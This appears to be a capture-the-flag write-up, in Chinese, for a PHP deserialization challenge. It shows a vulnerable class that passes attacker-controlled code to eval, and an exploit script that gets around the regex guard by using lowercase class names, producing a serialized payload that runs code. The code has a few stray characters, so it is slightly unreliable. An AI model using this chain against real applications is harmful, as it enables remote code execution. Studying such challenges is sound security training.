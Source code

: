 # 天翼杯

## [天翼杯 2021]esay_eval

###  考点

1. 绕过`wakeup`和正则

2. 新的一种利用so文件攻击redis的方式

###  反序列化

代码

```php
<?php
class A{
    public $code = "";
    function __call($method,$args){//当调用不可访问或者不存在的方法时调用
        eval($this->code);

    }
    function __wakeup(){+
        $this->code = "";
    }
}

class B{
    function __destruct(){
        echo $this->a->a();
    }
}
if(isset($_REQUEST['poc'])){
    preg_match_all('/"[BA]":(.*?):/s',$_REQUEST['poc'],$ret);
    if (isset($ret[1])) {
        foreach ($ret[1] as $i) {
            if(intval($i)!==1){
                exit("you want to bypass wakeup ? no !");
            }
        }
        unserialize($_REQUEST['poc']);
    }
}else{
    highlight_file(__FILE__);
}
```

直接找链子吧

```php
<?php
class a{
    public $code='phpinfo();';
}
class b{
    public function __Construct(){
        $this->a=new a();
    }
}
$a=new b();
$b=serialize($a);
echo $b.PHP_EOL;
echo urlencode($b).PHP_EOL;
');
```